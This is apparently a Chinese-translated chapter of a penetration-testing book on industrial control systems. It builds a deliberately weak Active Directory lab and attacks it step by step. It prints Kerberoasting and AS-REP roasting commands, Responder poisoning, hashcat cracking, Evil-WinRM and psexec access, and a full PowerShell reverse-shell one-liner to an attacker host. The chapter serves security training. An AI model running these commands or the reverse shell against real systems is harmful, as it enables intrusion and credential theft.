



# 第十章: 我能做到 420

到目前为止，我们主要关注自动化——了解 PLC 是什么以及它如何通信。我们讨论的一个关键话题是连接性——特别是将 PLC 连接到物理 I/O，以及如何将其连接回 SCADA。我们还了解了 Modbus 和 Ethernet/IP，并学习了如何与 I/O 交互。此外，我们还讨论了使用各种工具来扫描和枚举端口和服务，以发现环境中可能运行的协议。在上一章中，我们探讨了如何使用 Burp Suite 与 Ignition，我们的 Web 托管 SCADA 系统进行交互。所有这些工具和技能对于完成成功的渗透测试至关重要。然而，实际上我们大部分时间都花在了查看 SCADA 和物理硬件方面的网络。根据你的渗透测试，通常被视为**白盒**测试，客户可能会将你放入 ICS 网络，并基本上给你自由进行发现，并提供以下内容：一个`Active Directory`（**AD**）帐户和 ICS 网络的图示。这使你避免了穿越公司网络的陷阱，反而可以通过**非军事区**、穿越**防火墙**，进入新的**域**。

如果本章仅聚焦于这些内容，那将是不公平的。在大多数渗透测试中，我通常被丢到公司网络的一侧，然后被要求突破进入工业网络。做到这一点需要理解工业网络中存在的技术。这样的理解将使我们能够获得立足点，进一步深入网络。在这里，我们将为我们日益扩展的实验室添加一些新元素。我们将模拟一个**灰盒**测试，在这个测试中，你将被放入**公司网络**，然后发现一条穿越的路径。

本章我们将涵盖以下主要主题：

+   安装企业环境元素

+   发现并发起我们的攻击

+   获取 shell

# 技术要求

本章内容，你将需要以下资源：

+   一台已安装并配置好的 Windows 2019 域控制器。点击以下链接下载你选择的服务器的 ISO：[`www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2019`](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2019)。

+   一台连接到域控制器的 Windows 10 工作站。点击以下链接获取 Windows 10 ISO 的访问权限：[`www.microsoft.com/en-ca/software-download/windows10ISO`](https://www.microsoft.com/en-ca/software-download/windows10ISO)。

+   一台已经运行的 Kali Linux 虚拟机，并安装了以下工具：

    +   `Impacket`：可以在这里获取：[`github.com/SecureAuthCorp/impacket/releases`](https://github.com/SecureAuthCorp/impacket/releases)。

    +   `Kerbrute`：可在此处下载：[`github.com/ropnop/kerbrute/releases/tag/v1.0.3`](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)。

    +   `Evil-WinRM`：可在此处下载：[`github.com/Hackplayers/evil-winrm`](https://github.com/Hackplayers/evil-winrm)。

你可以在此处查看本章代码的实际操作：[`bit.ly/3AzpxFp`](https://bit.ly/3AzpxFp)

# 安装企业环境元素

在*第一章*中，*使用虚拟化*，我们安装了四台**虚拟机**（**VMs**），其中包括两台 Ubuntu、一台 Windows 7 和一台 Kali Linux 分发版。接着，我们基于**普渡模型**创建了子网，并为这些虚拟机分配了静态 IP 地址，将它们分别对齐到各自的组织网络层级。在本节中，我们将通过设置运行 AD 的 Windows 2019 域控制器来添加企业侧的 ICS 实验室，并配置**域名系统**（**DNS**）和**动态主机配置协议**（**DHCP**）服务器。我们还将一台 Windows 10 工作站连接到该域。作为复习，我们的实验室目前应该看起来像下图所示：

图 10.1 – 当前实验室布局

一旦完成域控制器和工作站的设置，你的网络布局应该类似于下图所示：

图 10.2 – 企业实验室新增

接下来，我们将看看如何安装和配置域控制器。

## 安装和配置域控制器

访问以下链接以查找与域控制器实验室相关的 ISO 文件：[`www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2019`](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2019)。

现在，我将列出安装和配置域控制器的步骤。不过，我不会覆盖一些显而易见的步骤，也不会重新讲解在*第一章*中讲过的内容，*使用虚拟化*。如果你需要复习如何将 ISO 文件放入 ESXi 服务器的数据存储中，建议回到*第一章*进行复习。以下是所需的步骤：

1.  我假设你已经完成了 ISO 文件的加载，并且将域控制器带到 Windows 更新步骤部分。现在参考以下截图，这是我们将继续安装和配置部分的位置：

    图 10.3 – Windows 更新

1.  接下来，我们需要禁用**VM 网络**接口，并将首选 DNS 服务器的静态 IP 地址设置为`127.0.0.1`，如下图所示：

    图 10.4 – 企业界面

1.  接下来，我们将更改计算机的名称。我将使用名称`dc01`，如下图所示：图 10.5 – 更改计算机名称

    

    图 10.5 – 更改计算机名称

1.  现在，计算机需要重启才能应用名称更改。系统会弹出一个窗口，允许你重启系统。服务器重启后，我们需要导航到**服务器管理器**屏幕并选择**添加角色和功能**，如下图所示：图 10.6 – 添加角色和功能

    

    图 10.6 – 添加角色和功能

    系统会提示你进入**选择安装类型**屏幕，在此选择**下一步 >**，如下图所示：

    

    图 10.7 – 选择安装类型

1.  接下来，系统会提示你进入**选择目标服务器**屏幕，在此你需要确保选择了你的主服务器并点击**下一步 >**，如下图所示：图 10.8 – 选择目标服务器

    

    图 10.8 – 选择目标服务器

1.  从这里，你将看到一系列的角色供你选择。我们需要选择**Active Directory 域服务**、**DHCP 服务器**和**DNS 服务器**，如下图所示：图 10.9 – 选择服务器角色

    

    图 10.9 – 选择服务器角色

1.  选择每个复选框后，系统会弹出一个窗口，提供有关你将要安装的角色的详细信息。点击**添加功能**按钮确认每个角色的选择。然后你将看到**选择功能**窗口。只需点击**下一步 >**而不选择任何功能（除非是默认选中的功能）即可继续安装过程，如下图所示：图 10.10 – 选择功能

    

    图 10.10 – 选择功能

1.  点击**下一步 >**按钮，依次通过`AD DS`、**DHCP 服务器**和**DNS 服务器**信息屏幕。然后，你将进入**确认安装选择**屏幕，可以通过点击**安装**按钮继续：图 10.11 – 确认安装选择

    

    图 10.11 – 确认安装选择

1.  安装完成后，系统会进入**安装进度**屏幕，你需要点击**将此服务器提升为域控制器**选项，如下图所示：图 10.12 – 提升域控制器

    

    图 10.12 – 提升域控制器

1.  在这里，你将选择**添加一个新森林**选项。然后将域名设置为`labcorp.local`，并点击**下一步 >**按钮：

    图 10.13 – 部署配置

1.  接下来，你将看到**域控制器选项**。保持所有设置不变，并设置你的**目录服务恢复模式**（**DSRM**）密码，如下所示的截图所示：

    图 10.14 – 域控制器选项

1.  点击**下一步 >**，通过 DNS 选项，但不要选择**创建 DNS 委派**。然后，你将看到**附加选项**窗口。在这个窗口中，NetBIOS 域名将自动为你生成。点击**下一步 >**，然后在**路径**页面上再次点击**下一步 >**。在**审查选项**页面上，再次点击**下一步 >**。这样做将开始先决条件检查。从这里开始，我们点击**安装**，如下所示的截图所示：

    图 10.15 – 先决条件检查

1.  安装完成后，你将会被注销，服务器会重新启动。系统重新启动后，你将看到现在已经拥有了`LABCORP`域，如下所示的截图：

    图 10.16 – LABCORP 域

1.  现在我们已经安装了 AD，接下来我们要快速添加一个域管理员，以继续进行接下来的两个服务器配置。请继续在**Active Directory 用户和计算机**中添加一个新用户，如下所示：

    图 10.17 – 用户和计算机

1.  我使用了`lab.da:Password123`作为我的凭证，并将新用户设置为`Domain Admins`的成员，如下所示：

    图 10.18 – 域管理员

    由于你已经添加了一个域管理员，你将继续并将`LabGroups`和`LabUsers`作为`labcorp.local`域下的组织单元添加，如下所示：

    

    图 10.19 – 组织组

1.  接下来，你将在`LabGroups`组织单元下创建一个名为`Scada`的组：

图 10.20 – Scada 组

接下来，你要创建三个新用户，并将它们添加到`LabUsers`组织单元中。用户信息如下：

+   `operator1**/**Password1`

+   `operator2**/**Password2`

+   `operator3**/**Password3`

这是一个示例，使用`operator1`，将密码设置为`Password1234`，并使其成为`Scada`组的成员：

图 10.21 – LabUsers operator1

在创建`operator2`账户时，我们将调整一个特定设置，下一节将讨论此设置。在**用户和计算机**中，我们需要选择`operator2`，然后选择**账户**选项卡。接着，在**账户**选项下，选择**不要求 Kerberos 预身份验证**选项。这最终是防止 Kerberos 暴力破解的保护机制。如果禁用此功能，我们可以捕获未使用此功能的用户的哈希值：

图 10.22 – 禁用 Kerberos 预身份验证

现在我们已经禁用 Kerberos 预身份验证，我们将继续安装并配置 DNS 服务器。

## 添加并安装 DNS 服务器

下一步是退出本地管理员账户，并以`labcorp\lab.da`重新登录到服务器，继续配置 DNS 服务器：

1.  在**服务器管理器**仪表盘上，从左侧菜单中选择`DNS`选项。这将列出可以配置为 DNS 的服务器。选择`DC01`服务器，右键点击它。这将弹出一个上下文菜单，允许我们选择**DNS 管理器**：

    图 10.23 – DNS 服务器

1.  **DNS 管理器**会弹出一个窗口，列出你可以添加区域的服务器。我们将要在**反向查找区域**文件夹下创建一个新区域：

    图 10.24 – DNS 管理器

1.  在这里，我们需要选择**主区域**，然后点击**下一步 >** 按钮：

    图 10.25 – 新区域向导

1.  然后，我们需要选择一个选项，以便在`labcorp.local`域中的所有域控制器上复制。点击**下一步 >** 按钮，然后选择**Ipv4 反向查找区域选项**，再点击**下一步 >**。在这两屏后，你将进入一个界面，可以声明**反向查找区域名称**的网络 ID：

    图 10.26 – 反向查找区域名称

1.  在**动态更新**界面点击**下一步 >**，然后最后点击**完成**。此时，你将看到一个已建立并运行的反向区域。接下来，我们需要通过右键点击服务器，选择**为所有区域设置老化/回收...**来设置资源回收：

    图 10.27 – 所有区域的回收

1.  设置选项为**回收过时的资源记录**，然后应用以下截图所示的设置：

图 10.28 – 设置老化/回收属性

在设置了老化/清理属性后，您就完成了 DNS 服务器的配置。现在，我们将继续安装和配置 DHCP 服务器。

## 添加和安装 DHCP 服务器

我们已经完成了 DNS 服务器的设置。现在，我们将继续通过以下步骤添加和安装 DHCP 服务器：

1.  点击左侧菜单中的`DHCP`选项将显示服务器列表。您应该会看到一条通知——**需要为 DC01 上的 DHCP 服务器配置**。右键点击服务器并选择**DHCP 管理器**：

    图 10.29 – DHCP 服务器配置

    然后，您将看到以下屏幕：

    

    图 10.30 – DHCP 管理器

1.  右键点击`dc01.labcorp.local`服务器，从上下文菜单中选择**授权**：

    图 10.31 – 上下文菜单

1.  授权后，我们将为 IPv4 添加一个新作用域。右键点击`IPv4`图标，选择**新建作用域...**：

    图 10.32 – IPv4 新作用域

1.  这将带来一系列配置屏幕。逐个点击屏幕并为您的作用域命名。我使用`Lab Corp`作为名称，以简化操作。接下来，您将进入一个**IP 地址范围**配置屏幕，在这里需要输入起始和结束 IP 地址。下一个屏幕显示了我选择的选项：

    图 10.33 – IP 地址范围

1.  对于**添加排除项和延迟**选项，我简单地留空并点击**下一步 >**按钮。对于**租期**选项，我将其设置为`8`天并点击**下一步 >**。完成后，您将看到一个屏幕，在此选择**是**以应用这些选项。然后点击**下一步 >**按钮。在**路由器**屏幕上，我没有做任何更改，直接点击**下一步 >**。如果一切配置正确，您现在应该看到一个**域名和 DNS 服务器**的屏幕，应该会自动填充，如下截图所示：

    图 10.34 – DNS 服务器屏幕

1.  点击**下一步 >**通过后续的屏幕，并确保选择**是**以激活作用域。最后，点击**完成**按钮。现在，我们想通过点击之前看到的通知横幅上的**更多**链接来运行后配置。这将带我们进入一个屏幕，显示**部署后配置**选项，在这里我们需要点击**完成 DHCP 配置**：

    图 10.35 – 完成 DHCP 配置

1.  这将带你进入以下**授权**屏幕，在这里你需要点击**提交**按钮，然后点击**关闭**：

图 10.36 – 授权

现在我们应该已经有一个完全配置好的域控制器，正在运行 AD、DNS 和 DHCP 服务器。

## 添加和安装网络文件共享

接下来，我们将通过点击**文件和存储服务**，选择**任务**，然后点击**新建共享...**来模拟网络文件共享，如下图所示：

图 10.37 – 文件和存储服务

在下一个截图中，你可以看到我们有五个选项，适用于两种协议：

+   **服务器消息块**（**SMB**）

+   **网络文件系统**（**NFS**）

如果你记得在*第六章*中，我们讨论了这些协议通常存在于公司网络内部。这里是这些协议的主要来源之一。我们想生成**SMB 共享 - 快速**，如下图所示：

图 10.38 – SMB 和 NFS 共享选择

在下一个步骤中，我们将选择服务器并按照如下方式共享位置：

+   `dc01`

+   `C:`

我们将`LabFiles1`作为**共享**名称，因为这将自动生成**共享的本地路径**和**共享的远程路径**值，如下图所示：

图 10.39 – 指定共享名称

现在，在**其他设置**、**权限**和**确认**屏幕上，点击**下一步 >**按钮。最后，点击**创建**，文件共享就完成了。

## 配置 Kerberos

我们需要在域控制器上设置 Kerberos，以便我们能够检查 Kerberoasting，这是一种常见的攻击方式，可能会被用来利用 AD。输入以下命令来设置**服务主体名称**（**SPN**），此处使用的是`operator3`：

setspn -a DC01/operator3.labcorp.local:9999 labcorp\operator3

如果命令成功执行，你应该看到如下输出：

图 10.40 – SPN 设置

现在我们已经设置了 SPN，安装和配置域控制器功能的步骤也就完成了。接下来，我们可以开始搭建工作站。

## 安装和配置工作站

请访问以下链接查找与 Windows 10 相关的 ISO：[`www.microsoft.com/en-ca/software-download/windows10ISO`](https://www.microsoft.com/en-ca/software-download/windows10ISO)。

我将让你启动 Windows 10 Pro for Workstations 虚拟机，我会直接跳到我们将工作站添加到域的步骤：

1.  在所有更新设置完成后，你需要进入 Windows 开始菜单。然后，前往**设置** | **系统** | **关于** | **重命名此 PC（高级）**，如下所示的截图所示：

    图 10.41 – 关于此 PC

1.  点击此屏幕上的**重命名此 PC（高级）**链接，它将显示以下**系统属性**屏幕：

    图 10.42 – 系统属性

1.  从这里，点击**更改...**按钮以设置**计算机名称**。然后设置工作站可以加入的**域**名，如下所示：

    图 10.43 – 计算机名称和域

1.  如果一切配置正确，你应该会看到一个 Windows 安全弹窗，提示你输入具有加入域权限的账户的用户名和密码。如果你还记得上一节中，我们创建了一个域管理员账户。请使用该账户的凭证将工作站加入域：

    图 10.44 – 域管理员登录

    如果成功，你将看到以下消息：

    

    图 10.45 – labcorp.local

    一旦点击**确定**按钮，你将收到通知，告知你需要重启工作站才能使更改生效。请继续重启工作站。

1.  最后一步是测试我们在上一节创建的用户是否能够登录到这台计算机。使用`operator1`账户登录到工作站计算机：

图 10.46 – operator1 登录

为了将工作站置于脆弱状态，还需要执行一些额外的配置：

+   通过启动**Windows 远程管理**服务来启用它。

+   将`Scada`添加到**本地` `组** | **远程管理用户**。

+   确保已启用防火墙规则，允许`3389`端口。

在**服务**下，打开**Windows 远程管理（WS-Management）属性**。在**常规**选项卡下，将**启动类型**设置为**自动**，然后点击**启动**，使**服务状态**变为**正在运行**，如下所示：

图 10.47 – 服务状态

在这里，我们要将`LABCORP\Scada`组添加到 Windows 10 工作站的**远程管理用户**组中：

图 10.48 – 远程管理组

在**Windows Defender 高级安全防火墙**中，启用**Windows 远程管理**：

图 10.49 – Windows Defender

这标志着工作站安装和配置的完成。接下来我们将转到 Kali 虚拟机，确保我们已安装必要的工具，以便继续前进。

## Kali Linux 工具

现在，我们已经安装并配置了企业网络的一部分，接下来我们将打开 Kali Linux 攻击盒子。从这里，我们需要安装一些在*技术要求*部分提到的工具。这些工具在处理基于 Windows 的环境时非常有用。我认为我参与过的 100% 的公司都在其企业环境中运行了某种形式和配置的 Active Directory（AD）。需要安装的工具如下：

+   `Impacket`: 我们将在 Kali Linux 虚拟机上安装的第一个工具是 Impacket。它实际上是一个 Python 类库，能够在数据包级别与基于 Windows 的协议进行交互。该工具负责完成会话的建立、连接、维护和拆除等繁重工作。要开始使用，请访问以下链接：[`github.com/SecureAuthCorp/impacket/releases`](https://github.com/SecureAuthCorp/impacket/releases)。

    从这里，下载最新的包。完成后，解压 `.tar` 文件并在 `impacket` 文件夹内运行以下命令：

    `python3 -m pip install .`

+   `Kerbrute`: 接下来，我们需要安装 Kerbrute。它是一个自动化枚举 Active Directory（AD）账户的工具。请使用以下链接：[`github.com/ropnop/kerbrute/releases/tag/v1.0.3`](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)。

    确保您修改了文件的可执行权限。

+   `Evil-WinRM`: 最后，我们需要安装 `Evil-WinRM`。这是一个用于渗透测试 **Windows 远程管理**（**WinRM**）的工具。运行以下命令：

    `sudo gem install evil-winrm`

在本节中，我们花时间构建了域控制器和工作站。我们为域控制器添加了 AD、DNS、DHCP 和文件共享功能。我们创建了一个域并将用户添加到该域中，然后将工作站加入该域。最后，我们确保我们的 Kali Linux 虚拟机具备了“PWN”企业环境所需的工具。在下一节中，我们将使用这些已安装的工具，继续推进并在企业网络中发起攻击。

# 发现并启动我们的攻击

我们已经建立并配置了企业实验室，并将新工具安装到了 Kali 发行版中。接下来，我们要做的就是开始查看我们所接入的网络。在*第七章*，《扫描 101》中，我们介绍了许多不同的工具。我们可以在这里使用这些工具进行发现性攻击。然而，我觉得更合适的方法是考虑其他方式来扩展我们的渗透测试工具箱。

让我们先跳过`rustscan`和`nmap`，直接开始通过 NetBIOS 名称枚举主机。使用以下命令在当前子网中运行`nbtscan`命令：

nbtscan 172.16.0.0/24

现在我们应该能看到两台机器，`DC01`和`WS01`，如下图所示：

图 10.50 – nbtscan

快速识别 NetBIOS 名称让我们有理由猜测`DC01`是域控制器。记住这些信息后，我们现在希望对发现的机器名称运行`enum4linux`，看看是否能提取更多的细节。运行以下命令：

enum4linux 172.16.0.2

你应该看到以下结果：

图 10.51 – enum4linux

我们现在已经发现了`LABCORP`域名。从这里开始，我们希望尝试枚举可能存在于该域中的用户。使用 Kerbrute（我们在上一节中安装了它）可以通过向域控制器发送 Kerberos 请求来枚举用户。我们通过使用包含以下用户名的传统 ICS 用户生成的列表来执行此操作：

+   `admin`

+   `root`

+   `operator1`

+   `operator2`

+   `operator3`

+   `scada`

+   `scada-user`

+   `scada1`

+   `scada2`

我们现在可以运行以下命令：

./kerbrute_linux_amd64 userenum Industrial_Pentesting/users.txt -d labcorp.local -dc 172.16.0.2

你可以从以下输出看到，我们成功地枚举了四个有效用户：

图 10.52 – 枚举的用户

接下来，我们将使用我们在上一节中安装的 Impacket 工具的一些子功能。具体来说，我们将运行`impacket-GetNPUsers`命令，看看是否有任何 AD 用户禁用了 Kerberos 预身份验证。运行以下命令：

impacket-GetNPUsers labcorp.local/Adminstrator -dc-ip 127.16.0.2 -no-pass

如预期，`Administrator`账户已启用`preauth`，如下所示：

图 10.53 – Impacket 管理员检查

现在测试另一个账户。如果你还记得我们调整 operator2 配置时禁用`preauth`的 AD 用户设置，那么使用以下命令应能得到有效响应：

impacket-GetNPUsers labcorp.local/operator2 -dc-ip 127.16.0.2 -no-pass

你可以看到我们发现了`operator2`的哈希：

图 10.54 – operator2 哈希

发现此哈希后，我们可以使用`hashcat`。使用模式`-m 18200`对 Kerberos 哈希进行破解，运行以下命令：

sudo hashcat -m 18200 operator2.hash /usr/share/wordlists/rockyou.txt

根据密码的复杂性，这可能需要相当长的时间。然而，如果你保持本章之前的设置，破解`operator2`密码只需几秒钟。在这里，你可以看到在 Kerberos 哈希的末尾，密码`Password2`已经被附加，表明我们成功破解了哈希：

图 10.55 – operator2 的密码

我们可以直接使用这些新发现的凭据远程登录到该机器，或者利用它们通过 Impacket 进行更多的发现。由于本节的标题是*发现并启动我们的攻击*，我们将利用这个帐户进行进一步的发现。我们将运行以下命令：

impacket-GetADUsers -all labcorp.local/operator2 -dc-ip 172.16.0.2

这将使用`operator2`枚举所有的 AD 用户：

图 10.56 – GetADUsers

继续发现路径，我们将使用另一个 Impacket 工具，使用 Kerberos 的默认行为提取服务帐户。我们将运行以下命令：

impacket-GetUserSPNs labcorp.local/operator2:Password2 -dc-ip 172.16.0.2 -request

这是一个非常可怕的攻击，因为它不需要提升的用户权限就可以从域控制器中提取服务帐户。在运行该命令后，你应该看到我们已经发现了`operator3`的 SPN。这来自上一节中的 Kerberos 配置部分：

图 10.57 – SPN

再次，我们发现了一个哈希，看看它的样子，似乎是 Kerberos 哈希，但格式不同。通过简单的研究，我们发现它是以 TGS 格式保存的。现在，我们想用`hashcat`破解这个哈希，运行以下命令：

hashcat -m 13100 operator3.hash /usr/share/wordlists/rockyou.txt

这将成功破解哈希，并向你展示以下输出：

图 10.58 – operator3 破解的密码

接下来，我们将运行`responder`。它与 Impacket 一起安装。现在，`responder`使我们能够中毒`Link-Local Multicast Name Resolution`（**LLMNR**），并伪造 SMB 请求以便捕获网络上的 Windows `New Technology LAN Manager`（**NTLM**）哈希。

我们将使用以下命令运行`responder`：

sudo responder -I eth1

你应该得到以下结果，显示毒害工具正在运行，且服务器是活跃的：

图 10.59 – responder 正在运行

现在，为了触发捕获，由于我们有一个非常静态的实验环境，登录到你的 Windows 10 虚拟机并打开浏览器。输入一个字符串并按 *Enter*：

图 10.60 – 测试

如果一切配置正确，你应该会看到`responder`已经捕获了`operator1`的 NTLM 哈希，如下所示：

图 10.61 – NTLM 哈希

正如我们之前所做的，我们将使用`hashcat`来破解`operator1`的密码。运行以下命令：

hashcat -m 5600 operator1.hash /usr/share/wordlists/rockyou.txt

密码应该很快被破解，你将看到以下结果：

图 10.62 – operator1 密码

在这一部分，你可以看到，借助合适的工具，如何轻松地开始枚举域控制器，从而获取企业环境中的有用信息。我们能够通过一般用户帐户枚举凭据并发现域帐户。我们通过毒化 LLMNR、NBT-NS 和 DNS/MDNS 捕获了哈希。在本节中，我们使用了`hashcat`对我们发现的哈希执行了各种破解模式。我们只是触及了这些工具所包含的部分强大功能。我强烈建议你阅读 enum4linux、Impacket、Kerbrute 和 hashcat 的文档。

在接下来的章节中，我们将利用我们发现并破解的**用户名:密码**组合，进入企业网络中的各个系统。

# 获取 shell

现在我们有了三组凭据和五个额外用户名的列表，是时候利用这些凭据，获取企业计算机的 foothold/shell 了。我们将使用 Evil-WinRM、Impacket-psexec 和 PowerShell 执行各种漏洞利用，获取 Windows 主机的访问权限。

我们将从`Evil-WinRM`开始，使用以下凭据查看是否能够获得一个 shell：`operator2:Password2`。运行以下命令：

evil-winrm -I 172.16.0.4 -u operator2 -p Password2

如果本章第一部分的配置都正确，你将看到以下结果：

图 10.63 – Evil-WinRM shell

*瞧*! 我们得到了第一个 shell，现在是时候探索我们新 shell 的功能了。输入`menu`命令并按下*Enter*。这将弹出一份后渗透模块列表：

图 10.64 – Evil-WinRM shell 菜单

故事时间

我记得曾与 Rob Mubix Fuller 进行过一次对话。他传授给我一条智慧箴言，这条箴言曾被传递给他：*两个是一个，一个是零*，意思是如果你只有一个 shell，那么实际上你根本就没有 shell。你需要一个备份计划，以防你的主会话丢失或被切断。这句话一直深深印在我脑海中，我也会将这一见解传递给你。所以记住，如果你成功获取了一个 shell，务必尽快构建第二个 shell。

话虽如此，我们需要构建另一个 shell。一个很好的资源是`Payloads All The Things`。可以通过以下链接访问：[`github.com/swisskyrepo/PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings)。

我们将使用反向 Shell 备忘单来找到一个 PowerShell 方法。以下代码展示了我们将用于连接回 Kali Linux 虚拟机的 PowerShell 命令：

client = New-Object System.Net.Sockets.TCPClient("172.16.0.6",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

为了在我们当前的环境中使其生效，我们必须禁用 Windows 10 虚拟机上的**实时保护**：

图 10.65 – 病毒与威胁防护设置

禁用**实时保护**后，我们将使用以下命令设置一个新的监听器：

nc -nvlp 4242

执行该命令后，我们将看到以下输出：

图 10.66 – 监听端口 4242

接下来，我们要执行前面图示中的 PowerShell 命令。一旦反向 shell 连接成功，我们将看到以下输出：

图 10.67 – 反向 PowerShell

现在我们已经成功地使用 PowerShell 载荷获取了反向 shell。接下来，我们将使用 Impacket-psexec 运行一个漏洞利用来获取一个新的 shell。我们将使用在本章第一节中创建的域管理员账户。首先运行以下命令：

impacket-psexec labcorp.local/lab.da:'Password123'@172.16.02

执行上述命令后，你将看到以下结果：

图 10.68 – impacket-psexec

到目前为止，你可能会问自己——既然我们已经有了凭据，难道不能直接通过**远程桌面协议**（**RDP**）连接到 Windows 主机并尝试从那里进行攻击吗？你完全正确。你可以使用这些凭据，通过 RDP 连接到 Windows 主机。然而，你必须小心。无论我们如何掩藏踪迹，总会留下痕迹。如果你开始使用 RDP 会话，它们可能会变得非常显眼，而且你很可能会遇到你破解的凭据的拥有者，因为他们可能已经登录到机器上了。

# 总结

本章涵盖了大量内容。我们搭建了一个带有 AD 的域控制器，设置了 DNS 服务器和 DHCP 服务器，创建了文件共享，并使用多种工具进行枚举、投毒流量并获得 shell。每一个话题和工具都值得写成一本书。说实话，在花了很多年从事操作技术领域的工作后，写关于公司网络的内容，确实有些像是“冒名顶替综合症”。我可以毫不犹豫地重申，练习获取公司网络中单个主机的访问权限非常重要，因为没有两个渗透测试任务是完全相同的。如果不更加努力并全面提升自己的技能，不能指望自己成功。在下一章，我们将通过当前实验室环境进行深度探索，检查进程级别，并最终实现对物理 I/O 的控制。
